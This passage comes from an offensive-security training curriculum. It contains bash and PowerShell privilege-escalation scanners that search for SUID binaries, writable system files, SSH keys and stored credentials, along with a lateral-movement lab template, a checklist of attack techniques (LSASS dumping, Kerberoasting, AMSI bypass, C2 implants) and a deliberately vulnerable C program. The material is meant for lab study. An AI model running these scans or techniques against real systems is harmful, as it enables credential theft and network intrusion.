# Usage: bash linux_privesc_check.sh | tee /tmp/privesc_out.txt

RED='\033[0;31m'
YELLOW='\033[0;33m'
GREEN='\033[0;32m'
CYAN='\033[0;36m'
NC='\033[0m'

DIVIDER="============================================"

header() { echo -e "\n${CYAN}${DIVIDER}\n $1\n${DIVIDER}${NC}"; }
finding() { echo -e "${RED}[!] $1${NC}"; }
info() { echo -e "${YELLOW}[*] $1${NC}"; }
ok() { echo -e "${GREEN}[+] $1${NC}"; }

echo "${DIVIDER}"
echo " Linux PrivEsc Checker"
echo " Host: $(hostname) | User: $(whoami) | Date: $(date)"
echo "${DIVIDER}"

header "KERNEL VERSION"
uname -a
cat /etc/os-release | grep PRETTY_NAME

header "CURRENT USER CONTEXT"
id
echo ""
info "Groups:"
groups

header "SUDO RULES"
sudo -l 2>/dev/null || echo "No sudo access"

header "SUID BINARIES: CHECK EACH AT GTFOBINS"
SUID_BINS=$(find / -perm -4000 -type f 2>/dev/null)
if [ -n "$SUID_BINS" ]; then
    finding "SUID binaries found:"
    echo "$SUID_BINS"
else
    ok "No unusual SUID binaries found"
fi

header "CAPABILITIES"
CAP_BINS=$(getcap -r / 2>/dev/null)
if [ -n "$CAP_BINS" ]; then
    finding "Capabilities found:"
    echo "$CAP_BINS"
else
    ok "No binaries with dangerous capabilities"
fi

header "/ETC/PASSWD WRITABLE?"
ls -la /etc/passwd
[ -w /etc/passwd ] && finding "/etc/passwd IS WRITABLE: exploit immediately" || ok "Not writable"

header "CRON JOBS"
echo "--- /etc/crontab ---"
cat /etc/crontab 2>/dev/null
echo "--- /etc/cron.d/ ---"
ls -la /etc/cron.d/ 2>/dev/null
echo "--- User crontab ---"
crontab -l 2>/dev/null || echo "No user crontab"

header "WRITABLE SCRIPTS IN SYSTEM PATHS"
find /etc /opt /usr/local -writable -name "*.sh" 2>/dev/null | while read f; do
    finding "Writable script: $f"
done

header "NFS EXPORTS"
cat /etc/exports 2>/dev/null && echo "" || ok "No NFS exports"

header "INTERESTING FILES: POTENTIAL CREDENTIALS"
find /home /opt /var/www /tmp /root -name "*.txt" 2>/dev/null | \
  xargs grep -l -i "pass\|secret\|token\|key\|credential" 2>/dev/null | while read f; do
    finding "Interesting file: $f"
done

header "SSH KEYS"
find / -name "id_rsa" -o -name "id_ecdsa" -o -name "id_ed25519" 2>/dev/null | while read k; do
    finding "Private key found: $k"
done
find / -name "authorized_keys" 2>/dev/null

header "INTERNAL SERVICES (listening locally only)"
ss -tulpn 2>/dev/null | grep "127.0.0.1"

header "ENVIRONMENT VARIABLES"
env | grep -iE "pass|key|secret|token|api|credential"

header "RECENTLY MODIFIED FILES (last 7 days)"
find / -mtime -7 -type f 2>/dev/null | grep -v proc | grep -v sys | grep -v run | head -30

header "SCAN COMPLETE"
echo "Review RED [!] findings first."
echo "Cross-reference every SUID/sudo finding with GTFOBins: https://gtfobins.github.io/"
echo "Kernel version: $(uname -r)"
echo "Check against DirtyPipe (CVE-2022-0847: kernels 5.8-5.16.10)"
echo "Check against GameOver(lay) (CVE-2023-2640/CVE-2023-32629: Ubuntu-specific)"
```

#### Windows PrivEsc Scanner

```powershell
# windows_privesc_check.ps1
# Usage: powershell -ExecutionPolicy Bypass -File windows_privesc_check.ps1

function Write-Header { param($text)
    Write-Host "`n============================================" -ForegroundColor Cyan
    Write-Host " $text" -ForegroundColor Cyan
    Write-Host "============================================" -ForegroundColor Cyan
}
function Write-Finding { param($text) Write-Host "[!] $text" -ForegroundColor Red }
function Write-Info    { param($text) Write-Host "[*] $text" -ForegroundColor Yellow }
function Write-OK      { param($text) Write-Host "[+] $text" -ForegroundColor Green }

Write-Header "Windows PrivEsc Checker"
Write-Info "Host: $env:COMPUTERNAME | User: $env:USERNAME | Domain: $env:USERDOMAIN"

Write-Header "TOKEN PRIVILEGES: READ THIS FIRST"
whoami /priv
Write-Finding "SeImpersonatePrivilege -> GodPotato: https://github.com/BeichenDream/GodPotato"
Write-Finding "SeDebugPrivilege -> LSASS dump -> domain creds"
Write-Finding "SeBackupPrivilege -> dump SAM+SYSTEM -> all local hashes"

Write-Header "UNQUOTED SERVICE PATHS"
$services = Get-WmiObject Win32_Service | Where-Object {
    $_.PathName -notmatch '^"' -and
    $_.PathName -notmatch '^C:\\Windows' -and
    $_.PathName -match ' '
}
if ($services) {
    Write-Finding "UNQUOTED SERVICE PATHS:"
    $services | Select-Object Name, PathName, StartMode | Format-Table -AutoSize
} else { Write-OK "No unquoted service paths found" }

Write-Header "ALWAYSINSTALLELEVATED"
$hkcu = (Get-ItemProperty "HKCU:\SOFTWARE\Policies\Microsoft\Windows\Installer" `
  -Name AlwaysInstallElevated -ErrorAction SilentlyContinue).AlwaysInstallElevated
$hklm = (Get-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\Installer" `
  -Name AlwaysInstallElevated -ErrorAction SilentlyContinue).AlwaysInstallElevated
if ($hkcu -eq 1 -and $hklm -eq 1) {
    Write-Finding "AlwaysInstallElevated ENABLED: generate malicious MSI for SYSTEM"
} else { Write-OK "AlwaysInstallElevated not set" }

Write-Header "STORED CREDENTIALS"
cmdkey /list
Write-Info "If entries above exist: runas /savedcred /user:DOMAIN\user cmd.exe"

Write-Header "INTERESTING FILES: POTENTIAL CREDENTIALS"
$paths = @(
    "C:\Users\*\Desktop\*.txt",
    "C:\Users\*\Documents\*.txt",
    "C:\inetpub\wwwroot\web.config",
    "C:\*.txt", "C:\*.xml", "C:\*.conf", "C:\*.ini"
)
foreach ($p in $paths) {
    Get-Item $p -ErrorAction SilentlyContinue | ForEach-Object {
        if (Select-String -Path $_.FullName -Pattern "pass|password|key|secret|credential" `
          -Quiet -ErrorAction SilentlyContinue) {
            Write-Finding "Possible credentials in: $($_.FullName)"
        }
    }
}

Write-Header "SCHEDULED TASKS"
schtasks /query /fo LIST /v 2>$null |
  Select-String -Pattern "Task Name|Run As User|Task To Run|Status" |
  Where-Object { $_ -notmatch "^$" }

Write-Header "UAC STATUS"
$uacKey = Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"
Write-Info "EnableLUA: $($uacKey.EnableLUA) (0 = UAC disabled, already elevated)"
if ($uacKey.EnableLUA -eq 0) { Write-Finding "UAC is DISABLED: no bypass needed" }

Write-Header "DLL HIJACKING"
Write-Info "Run Process Monitor with filter: Result = NAME NOT FOUND, Path ends .dll"
Write-Info "This scanner cannot replicate procmon. Run it manually."

Write-Header "REGISTRY RUN KEYS (Persistence check)"
Get-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -ErrorAction SilentlyContinue
Get-ItemProperty "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -ErrorAction SilentlyContinue

Write-Header "SCAN COMPLETE"
Write-Info "Review RED [!] findings immediately."
Write-Info "For SeImpersonatePrivilege: run GodPotato https://github.com/BeichenDream/GodPotato"
Write-Info "For every unquoted path: icacls the writable segment to confirm write access."
```

---

### Milestone 3: C2-Enabled Lateral Movement Chain

**Timeline:** Weeks 20-24
**Lab setup:** Attacker + DC + at least 2 Windows victims (all on the same virtual network)

```markdown
# C2 Lateral Movement Chain - Lab Documentation

## Lab Environment
| Machine | IP | OS | Role |
|---------|----|-----|------|
| Attacker | 192.168.56.10 | Kali Linux | Attacker, Sliver C2 |
| Victim-1 | 10.10.10.20 | Windows 10 | Initial foothold |
| DC | 10.10.10.10 | Windows Server 2022 | Domain Controller |

## Step 1: Reconnaissance
Command: [nmap command]
Finding: [what was open]

## Step 2: Initial Access
Machine: Victim-1 (10.10.10.20)
Method: [service exploitation / spraying / etc]
Command: [exact command]
Result: [shell type, user context]
Evidence: [output snippet]
Artifacts Generated: [event IDs on target]

## Step 3: AMSI Bypass and Tool Loading
Bypass used: [which method, why]
Tools loaded in memory: [PowerView, Rubeus, etc]
Verification: [how you confirmed bypass worked]

## Step 4: Privilege Escalation on Victim-1
Starting context: [user, integrity level]
Target: NT AUTHORITY\SYSTEM
Method: [which technique]
Commands: [exact]
Evidence: [whoami /groups output]
Artifacts Generated: [event IDs]

## Step 5: Credential Harvesting
Method: [secretsdump / pypykatz / Invoke-Mimikatz in memory]
Credentials Recovered:
  - administrator:NTLM_HASH_HERE
Evidence: [output snippet]
Artifacts: [Sysmon 10 for LSASS / 4662 for DCSync]

## Step 6: C2 Implant Deployment
Framework: Sliver
Listener: [type and port]
Implant: [format, evasion options used]
Persistence: [method used]
Evidence: [Sliver session screenshot or sessions output]

## Step 7: AD Enumeration Through C2
Tools: BloodHound.py from attacker (no binary on target)
Findings:
  - Domain Admin group members: [list]
  - AS-REP Roastable accounts: [list]
  - Kerberoastable SPNs: [list]
  - ADCS vulnerable templates: [list if any]
  - ACL misconfigurations: [list if any]

## Step 8: Path to Domain Admin
Method: [Kerberoasting / ADCS ESC1 / PtH / ACL abuse]
Commands: [exact]
Result: [DA or equivalent access]
Evidence: [whoami /groups on DC or secretsdump output]

## Attack Path Diagram
Attacker -> [initial exploit] -> Victim-1 -> [PrivEsc] -> SYSTEM ->
  [credential dump] -> [PtH or ADCS] -> DC (Domain Admin)

## OPSEC Assessment
What artifacts I generated: [list]
What would have caught me: [list]
What I would do differently: [list]
Defender blind spots I exploited: [list]
```

---

---

## PHASE 2 COMPLETION CHECKLIST

Do not move to Phase 3 until every box is checked. These are not suggestions.

### Reconnaissance and OSINT
- [ ] Passive recon profile on a lab target: subdomains, DNS records, certificates, Shodan, GitHub
- [ ] theHarvester: email format identified, user list built
- [ ] Wayback Machine: 5 historical URLs examined
- [ ] Google dork set built and tested (8+ working dorks)
- [ ] Nmap: SYN scan, service scan, UDP scan, NSE scripts: all used and understood
- [ ] Shodan query syntax: 10+ queries run, 3+ finding real exposed services

### Service Exploitation
- [ ] 15+ HackTheBox Easy machines rooted and documented (artifacts included)
- [ ] SMB: null session, nxc enumeration, EternalBlue check, PtH: all tested
- [ ] SSH: key harvesting, audit, agent forwarding concept understood
- [ ] WinRM: evil-winrm with password AND hash: both tested
- [ ] MSSQL: xp_cmdshell execution, UNC injection: both demonstrated
- [ ] RDP: connect, PtH with Restricted Admin mode tested
- [ ] Impacket suite: know what each tool does, credential format memorised

### Linux Privilege Escalation
- [ ] Root via SUID binary (5+ different binaries, each with GTFOBins reference)
- [ ] Root via sudo rule abuse (3+ techniques)
- [ ] Root via capabilities (cap_setuid or equivalent)
- [ ] Root via writable cron job or writable script executed by root
- [ ] Root via NFS no_root_squash
- [ ] Kernel exploit tested in lab (DirtyPipe or GameOver(lay))
- [ ] LinPEAS output: can identify and prioritise RED findings
- [ ] Custom Linux PrivEsc scanner built and tested

### Windows Privilege Escalation
- [ ] SYSTEM via SeImpersonatePrivilege -> GodPotato
- [ ] SYSTEM via unquoted service path
- [ ] SYSTEM via weak service permission (SERVICE_CHANGE_CONFIG)
- [ ] SYSTEM via AlwaysInstallElevated (MSI payload)
- [ ] UAC bypass via fodhelper: tested, explain why it works
- [ ] DLL hijacking identified in lab (procmon)
- [ ] WinPEAS output: can identify critical findings
- [ ] Custom Windows PrivEsc scanner built and tested

### Credential Poisoning and Relay
- [ ] Responder: NTLMv2 hash captured from a lab machine
- [ ] NTLMv2 hash cracked with hashcat -m 5600
- [ ] NTLM relay chain: Responder + ntlmrelayx -> SAM dump or RCE
- [ ] SMB signing: identified machines without signing using nxc
- [ ] mitm6: DHCPv6 poisoning demonstrated in lab
- [ ] Can explain WHY mitm6 works (IPv6 preference, DHCPv6 lease)
- [ ] Can explain which event IDs fire for each technique

### Post-Exploitation and Lateral Movement
- [ ] LSASS dumped (ProcDump method) and parsed with pypykatz
- [ ] SAM + SYSTEM hives extracted, hashes recovered with secretsdump
- [ ] Pass-the-Hash: lateral movement without plaintext credential
- [ ] Pass-the-Ticket: Kerberos ticket stolen and reused
- [ ] WMI lateral movement: wmiexec used successfully
- [ ] BloodHound CE: deployed, data imported, attack path to DA identified
- [ ] 3-machine lateral movement chain executed and fully documented
- [ ] Basic persistence: scheduled task + registry run key: both tested and cleaned up

### Active Directory Attacks
- [ ] net user/group /domain commands: can enumerate domain without tools
- [ ] rpcclient: enumdomusers, querygroupmem "Domain Admins": both demonstrated
- [ ] ldapsearch: users, computers, AS-REP roastable, Kerberoastable: all queried
- [ ] enum4linux-ng: full enumeration, password policy read before spraying
- [ ] AS-REP Roasting: hash captured and cracked with hashcat -m 18200
- [ ] Kerberoasting: TGS hash captured and cracked with hashcat -m 13100
- [ ] LAPS: read ms-McsAdmPwd attribute from at least one computer in lab
- [ ] ACL abuse: GenericAll used to reset a password or add to group in lab
- [ ] Shadow credentials: certipy shadow auto executed successfully in lab
- [ ] ADCS ESC1: certipy find identified a vulnerable template, cert requested as DA
- [ ] Constrained delegation: understood conceptually, attempted in lab

### AV/EDR Evasion
- [ ] AMSI bypass: one working method memorised and tested
- [ ] ETW patching: one working method tested
- [ ] PowerShell tool (PowerView or Rubeus) loaded in memory without disk write
- [ ] msfvenom payload tested against Windows Defender: understand why it flags
- [ ] Process injection: classic inject C code compiled and tested in lab
- [ ] LOLBins: certutil and bitsadmin used for file transfer in lab
- [ ] Sysmon configured in lab: saw your own technique artifacts in Event Viewer

### C2 Framework
- [ ] Sliver installed and running on attacker
- [ ] HTTPS listener created
- [ ] Windows implant generated (exe format)
- [ ] Implant executed on victim, session established in Sliver
- [ ] Basic commands run through Sliver: whoami, hostname, ps, ls, download
- [ ] SOCKS5 proxy configured through Sliver session
- [ ] Persistence mechanism configured (registry or scheduled task)
- [ ] Understood: what to look for in Sysmon when Sliver implant connects back

### Network Pivoting and Tunneling
- [ ] Ligolo-ng: pivot through a compromised machine to reach a second subnet
- [ ] Ligolo-ng: routes added and nmap scan run through tunnel
- [ ] Chisel: SOCKS5 tunnel created, proxychains routing confirmed working
- [ ] SSH dynamic tunnel: proxychains routing confirmed working
- [ ] netsh portproxy: rule created AND cleaned up on Windows

### Wireless Attacks
- [ ] Monitor mode enabled on compatible adapter
- [ ] WPA2 handshake captured (own lab network or AP with permission)
- [ ] Handshake cracked with hashcat -m 22000
- [ ] PMKID attack executed with hcxdumptool
- [ ] WPA3 transition mode: downgrade attack concept understood

### Password Attacks
- [ ] Password policy checked BEFORE spraying
- [ ] kerbrute: user enumeration + password spray
- [ ] hashcat: NTLM, NTLMv2, Kerberos TGS, AS-REP: each hash type cracked
- [ ] Rules: best64 and OneRuleToRuleThemAll: both applied and output compared
- [ ] Custom wordlist built with cewl from a target website

### Milestone Projects
- [ ] Milestone 1: Full pentest report written and self-reviewed
- [ ] Milestone 2: Linux PrivEsc scanner: working output on test target
- [ ] Milestone 2: Windows PrivEsc scanner: working output on test target
- [ ] Milestone 3: C2-enabled lateral movement chain documented with evidence and OPSEC assessment

---

---

## CTF LABS AND PRACTICE TARGETS

| Platform | Best For | Notes |
|----------|----------|-------|
| [HackTheBox](https://www.hackthebox.com) | All of Phase 2 | Starting Point is free and guided. Pro Labs for AD simulation (Offshore, RastaLabs). |
| [TryHackMe](https://tryhackme.com) | Guided technique practice | Pre-built rooms for every section. |
| [VulnHub](https://www.vulnhub.com) | Offline lab machines | Free download, run in VirtualBox. No hint system. |
| [PentestLab](https://pentestlab.blog) | Specific technique deep-dives | Good for cross-referencing. |

**Recommended HTB machines (in order):**

Linux:
1. Lame: MS08-067, classic entry point
2. Bashed: simple Linux, methodology practice
3. Shocker: ShellShock, CGI exploitation
4. Blocky: credential reuse
5. Mirai: default credentials (most common real-world path)

Windows:
1. Blue: EternalBlue MS17-010
2. Granny: WebDAV + IIS exploitation
3. Devel: FTP + IIS
4. Optimum: HTTP File Server CVE-2014-6287
5. Bastard: Drupal -> Windows RCE

Active Directory:
1. Active: Kerberoasting (perfect first AD machine)
2. Forest: AS-REP roasting + DCSync
3. Resolute: credential stuffing + WinRM + PrivEsc chain
4. Monteverde: Azure AD Connect credential dump
5. Sauna: LDAP anonymous bind + AS-REP + DCSync
6. Return: printer exploitation + WinRM + AD
7. Escape: MSSQL + ADCS ESC1 (perfect for Section 6.6.10)

---

---

## PHASE 2 TO PHASE 3 BRIDGE

Phase 3 is System and Kernel Exploitation. The gap between Phase 2 and Phase 3 is significant. Phase 2 exploits misconfigurations and uses existing tools. Phase 3 requires understanding how memory works at the instruction level, what a stack frame is, and how to write shellcode from scratch.

**This bridge is mandatory.** Most people who quit at Phase 3 did so because they skipped it.

### Two-Week Assembly Fundamentals Block (Do Before Phase 3 Day 1)

```bash
# Week 1: Assembly basics

# Install an x86-64 assembly playground:
sudo apt install nasm gdb pwndbg
# pwndbg: https://github.com/pwndbg/pwndbg
# Install: git clone https://github.com/pwndbg/pwndbg.git && cd pwndbg && ./setup.sh

# Write and run your first assembly program:
cat > hello.asm << 'EOF'
section .data
    msg db "Hello from asm", 10
    len equ $ - msg

section .text
    global _start

_start:
    ; write(1, msg, len)
    mov rax, 1          ; syscall number: sys_write
    mov rdi, 1          ; fd: stdout
    mov rsi, msg        ; pointer to message
    mov rdx, len        ; message length
    syscall

    ; exit(0)
    mov rax, 60         ; syscall number: sys_exit
    xor rdi, rdi        ; exit code: 0
    syscall
EOF

# Assemble and link:
nasm -f elf64 hello.asm -o hello.o
ld hello.o -o hello
./hello

# Debug with pwndbg:
gdb ./hello
pwndbg> break _start
pwndbg> run
pwndbg> step        # Step one instruction
pwndbg> info registers    # See all register values
pwndbg> x/20xb $rsp       # Examine 20 bytes at stack pointer

# Week 2: Stack understanding

# Create a vulnerable C program:
cat > vuln.c << 'EOF'
#include <stdio.h>
#include <string.h>

void win() {
    printf("You got code execution!\n");
}

void vulnerable(char *input) {
    char buffer[64];
    strcpy(buffer, input);     // No bounds check: overflow here
    printf("Input: %s\n", buffer);
}

int main() {
    char input[256];
    fgets(input, 256, stdin);
    input[strcspn(input, "\n")] = 0;
    vulnerable(input);
    return 0;
}
EOF

# Compile WITHOUT protections (for learning only):
gcc -o vuln vuln.c -fno-stack-protector -no-pie -z execstack -m64

# Check what protections are active:
checksec vuln
# Should show: No RELRO, No canary, NX disabled, No PIE

# Run with input and watch it crash:
python3 -c "print('A'*80)" | ./vuln
# Segfault = you overwrote the return address: that is Phase 3
```

**Understand these concepts before Phase 3 Day 1:**

```
Stack basics:
  What is the stack: where it lives, how it grows (downward), what lives on it
  What a stack frame is: return address, saved RBP, local variables
  Why strcpy(buffer, input) is dangerous when input > buffer size
  What happens at 'ret' instruction: pops return address off stack into RIP

Mitigations:
  Stack canary: random value before return address, checked before ret
  NX/DEP: non-executable stack, why ret2libc exists to bypass it
  ASLR: randomised base addresses, why information leaks matter
  PIE: Position Independent Executable, randomises code base address
  RELRO: read-only relocations, protects GOT

GDB basics:
  break <function>: set a breakpoint
  run: run the program
  step / nexti: step one instruction (step follows calls, nexti does not)
  info registers: show all registers
  x/Nxb $rsp: examine N bytes at stack pointer in hex
  x/Ni $rip: disassemble N instructions at current instruction pointer
  backtrace: show call stack

Reading GDB output:
  RAX/RBX/RCX/RDX: general purpose registers
  RSP: stack pointer (top of stack)
  RBP: base pointer (bottom of current frame)
  RIP: instruction pointer (current instruction)
```

**Resources for the bridge (in order):**

| Resource | Type | Duration | Cost | Notes |
|----------|------|----------|------|-------|
| "The Art of Exploitation" by Jon Erickson | Book | 2 weeks | ~$40 | Chapters 1-4 minimum. The stack chapter is the foundation of all Phase 3. Non-negotiable. |
| [pwn.college](https://pwn.college/) | Labs | Ongoing | FREE | Hands-on binary exploitation. Start at "Program Security" module. |
| [picoCTF binary exploitation](https://picoctf.org/) | CTF | 5 hours | FREE | Easier starting point if pwn.college is overwhelming at first. |
| [x86-64 Linux Syscall Table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) | Reference | 1 hour | FREE | You will use this constantly when writing shellcode. |
| [pwndbg Documentation](https://github.com/pwndbg/pwndbg) | Docs | 2 hours | FREE | GDB becomes genuinely usable with pwndbg. Learn its commands. |

> The gap between Phase 2 and Phase 3 is where most people quit. They hit Phase 3 without the stack foundation and stop. The bridge above prevents that. Read the Erickson chapters. Write the hello.asm program. Set up pwndbg. Understand the vulnerable C program before writing a single line of Phase 3 code.

---

<div align="right">

*Phase 2 complete. You are now a credible threat to the majority of organisations on the planet.*

*The work is: did you do every item in the checklist, or did you skip the uncomfortable parts? The checklist does not lie.*

*Phase 3 awaits. It is harder. That is correct.*

</div>

---
